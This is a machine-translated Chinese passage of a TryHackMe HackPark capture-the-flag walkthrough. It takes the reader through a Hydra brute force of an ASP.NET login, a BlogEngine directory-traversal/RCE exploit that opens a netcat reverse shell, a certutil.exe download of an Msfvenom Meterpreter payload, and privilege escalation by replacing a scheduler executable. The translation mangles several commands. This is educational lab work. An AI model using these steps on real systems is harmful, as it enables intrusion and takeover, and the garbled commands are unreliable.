










# 嗨，乔治！你想要回你的壳吗？

> 原文：<https://infosecwriteups.com/hi-george-do-you-want-your-shell-back-9e373b67bcd1?source=collection_archive---------1----------------------->

## [TryHackMe 报道](https://medium.com/@vadimpolovnikov)

使用 Metasploit、Msfvenom、Exploit-DB、PowerShell 和 RCE 的 HackPark 教育演练。

检索自 [Pinterest](https://www.pinterest.ca/pin/334251603576929403/)

嗨，你好！我很高兴您能和我一起进行这个小小的 TryHackMe HackPack 演练，毫无疑问，您将会找到您所寻求的东西，无论它是一个问题的解决方案还是看待事物的另一个角度。我们开始吧！

## [任务 1]部署易受攻击的 Windows 计算机

我肯定你在哪里见过这个淘气的小丑…也许是在 IT 电影或者斯蒂夫·金的小说里。所以，就不要纠结这个了。

> 嗨，乔治！多漂亮的船啊。你想要回来吗？

## [任务 2]使用 Hydra 强行登录

在我们调查的最开始，最好开始 Nmap 扫描。所以，让我们开始吧！

`Nmap -sV -sC -sO <IP-address> -oN basic_scan.nmap`

基本上，这种扫描是对被称为侵略性的-A 扫描的替代。但是，它缺少 traceroute 选项，这在这种情况下并不重要。让我们来看看结果。

我们最感兴趣的部分是端口 80。

> 在网站上搜索，点击一些链接，提交表单，后台运行一个 Burp 套件，这总是好的。这种方法被称为用户导向的爬行。它可能会显示一些隐藏的页面和功能。

找到登录页面后，无论是通过浏览 web 应用程序还是使用 GoBuster 之类的自动化工具。请参见下面的命令:

`gobuster dir -u http://ip-addr -w /usr/share/wordlists/dirb/common.txt`

GoBuster 将在 web 服务器中寻找隐藏的目录。

登录页面没有透露任何关于用户名的线索，所以让我们把攻击目标转向“忘记密码了？”目标。

用户名“admin”是黑客想到的第一个选项，也是导致这个错误的唯一用户名。让我们把它作为 THC-Hydra 的输入。

正如我前面所建议的，在浏览目标应用程序时运行 Burp Suite 是一个很好的实践。在这种情况下，它很有用，因为它显示了在登录页面提交的表单。

VIEWSTATE 字段告诉我们应用程序是在微软 ASP.NET 上编写的，为了破解密码，我们将使用整个表单作为 hydra 的 *http-post-form 攻击*的参数。

我们唯一改变的是用户名和密码的占位符，分别替换为^USER^和^PASS^。在表单的最后，我们指定 hydra 应该停止搜索的时间——当它不再看到“登录失败”消息时。

## [任务 3]损害机器

web 应用程序爬行的另一个好的实践是探索 HTML 的源代码。如果你已经做过了，你可能已经回答了第一个问题。否则，只需转到“关于”页面。

要找到我们需要的漏洞，您可以使用 google 搜索特定版本的 BlogEngine 并浏览在线漏洞数据库，或者使用 ***searchsploit*** 命令查询位于您的 Kali Linux 机器上的离线版本。

对于这个挑战，我使用了“目录遍历/远程代码执行”漏洞(46353.cs ),因为作者在解释如何利用它并获得对目标的访问方面做了出色的工作。

要查看漏洞文件的内容，只需键入***searchsploit-x 46353 . cs***。

事不宜迟，让我们按照漏洞作者的说明获得访问权限。为了方便起见，我将它们写在下面:

1.  打开漏洞文件，将 *TcpClient 函数*中的 IP 地址和端口号(可选)更改为您的本地机器专用。关闭文件。
2.  将文件重命名为 PostView.ascx
3.  使用您在漏洞利用文件( ***nc -lvnp <端口号>*** )中指定的端口启动 NetCat 监听器。
4.  导航到内容>帖子>欢迎使用 HackPark，然后选择文件管理器图标。上传 PostView.ascx 文件。
5.  打开说明中指定的链接( *http://ip-address/？主题=../../App_Data/files* )并捕捉反向外壳。

## [任务 4] Windows 权限提升

正如你所看到的，我们刚刚得到的外壳非常不稳定，这让我非常想念 Meterpreter 外壳。为什么我们不使用 Msfvenom 创建 windows 特定的 Meterpreter 有效负载，并获得所谓的类固醇外壳？！

该命令显示在下面的屏幕截图中:

细目分类:

> **-p** *指定有效载荷(***--list =有效载荷** *查看所有可用的有效载荷)*
> 
> **lhost** *—本地主机的 IP 地址*
> 
> **lport** *—本地主机将在*上监听的端口号
> 
> **-f** *是可执行文件*的文件类型

如果你想了解更多关于 Msfvenom 的知识，这里有攻击性安全提供的教程链接。

现在，我们需要把这些有效载荷交给受害者。非常感谢[网络导师](https://www.youtube.com/c/TheCyberMentor/featured)提供了如何实际做到这一点的线索。我们将使用[certutil.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)程序，该程序通常使用证书操作，但也可用于文件传输。

`certutil.exe -urlcache -f [http://ip-addr/ThePayload.exe](http://ip-address/ThePayload.exe) ThePayload.exe`

但是在执行这些命令之前，请转到目标机器上的 *C:\windows\temp* 目录，并在您的有效负载所在的目录中本地启动 HTTP 服务器。让我们使用 Python 的 SimpleHTTPServer。

> ***python-m simple http server 80***

在有效负载执行之前，我们需要设置 [Metasploit 处理程序](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit)，以便检索 Meterpreter 反向 shell。

1.  通过发出 msfconsole 命令打开 Metasploit 终端。
2.  键入 ***使用 exploit/multi/handler*** 以打开处理程序模块。
3.  选择我们已插入 Msfvenom 漏洞利用的有效负载— ***设置有效负载窗口/meter preter _ reverse _ TCP***。
4.  发出 ***显示选项*** 命令，设置所需选项(LHOST，LPORT)。
5.  运行漏洞利用(使用 ***运行*** 或 ***漏洞利用*** 命令)。

一旦您在受害机器上运行 ThePayload.exe，Meterpreter 反向 shell 就会在本地主机上出现。

接下来，让我们看看目标服务器的系统规格。由于我们目前正在使用 Meterpreter shell，您可以使用 ***sysinfo*** 命令。然而，由于我们将使用[Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)，它需要 Windows CLI 的 ***systeminfo*** 命令的输出，所以让我们使用后一个选项并将其提供给建议者。

* * *我不打算详述 Windows-Exploit-Suggester 的设置，但是如果你正在努力，请点击上面的链接。***

如果我们想通过使用 Windows-Exploit-Suggester 来检查系统是否易受攻击，我们需要将 systeminfo 命令的输出写入一个文件，并将其发送回我们的系统。就这么办吧！

1.  在 Windows 命令行输入***system info>name of file . txt***
2.  在 Meterpreter shell 中找到该文件，并发出 ***下载*** 命令将它放入我们的文件系统中。

下面是命令本身和输出，以及 Python 脚本能够找到的各种漏洞。

去追下一题！那台机器上运行的异常服务是什么？我们可以用 ***ps*** 命令检查当前的进程，或者在文件系统中搜索可疑的东西。最终，结果是服务*调度系统进程*并且它的目录位于程序文件(x86)中。

深入我们的假设并访问服务的目录，我们会遇到一些完全值得查看的日志文件。要回答这个问题并采取下一步行动，不要忘记检查那里的 *Events* 目录和日志文件。

为了进一步开发，我们需要知道更多关于这个调度服务的信息。值得庆幸的是，我们有 Exploit-DB，它有一个具体的不是利用而是如何提升我们的特权的解释。下面是漏洞数据库的一个截图:

现在，我们需要做的只是将 ThePayload.exe 漏洞重命名为 Message.exe(**记住我们在日志文件**中看到的内容)并将其放入 SystemScheduler 目录，同时将原始可执行文件保存在不同的名称下(Message.bak)。就这么办吧！

1.  在 Meterpreter — ***加载 powershell*** 中加载 PowerShell 模块。
2.  通过发出***powershell _ shell***命令启动 PS shell，并在 *\Temp* 目录中找到自己。
3.  用下面的 PS 命令更改*ThePayload.exe*的名字: ***重命名-物品 ThePayload.exe-新名称 Message.exe***
4.  用***Set-Location-Path " C:\ Program Files(x86)\ SystemScheduler "***命令进入 system scheduler 目录，将原来的*Message.exe*的扩展名改为 bak(文件的备份副本)。
5.  用***Copy-Item-Path " C:\ Windows \ Temp \ message . exe "-Destination " C:\ Program Files(x86)\ SystemScheduler "***将恶意的*Message.exe*文件复制到 system scheduler 目录下。
6.  离开当前的 Meterpreter 会话并启动一个新的会话。等待弹出一个反壳。

我们是管理员！从这一点，去追捕一些旗帜！

## [任务 5]不使用 Metasploit 的权限提升

考虑到我们已经做了这么多，这个任务对你来说是小菜一碟。从 TryHackMe 中指定的链接下载 winPEAS，并使用 certutil.exe 将其下拉到目标。观察输出并回答其余问题。

感谢您参加这次 TryHackMe 骑行，我们下次挑战再见。黑客快乐！

如果你想看看我的其他文章，点击**的链接**(文章的第一行，就在标题上方)或者选择下面的一些。

 [## Windows PrivEsc 或者如何破解 TryHackMe 钢山机。

### Metasploit、Exploit-DB、PowerShell 等等。

medium.com](https://medium.com/bugbountywriteup/windows-privesc-or-how-to-crack-the-tryhackme-steel-mountain-machine-fdd7dc19ada3)  [## TryHackMe。闯入克诺比机器。

### 这不仅仅是一个基本的演练，而是一个可以学习的资源。

medium.com](https://medium.com/@vadimpolovnikov/tryhackme-breaking-into-the-kenobi-machine-c569c4e2c625)  [## TryHackMe 基本测试演练。

### 关于黑客的教育演练。

medium.com](https://medium.com/@vadimpolovnikov/tryhackme-basic-pentesting-walkthrough-7817c719fd04)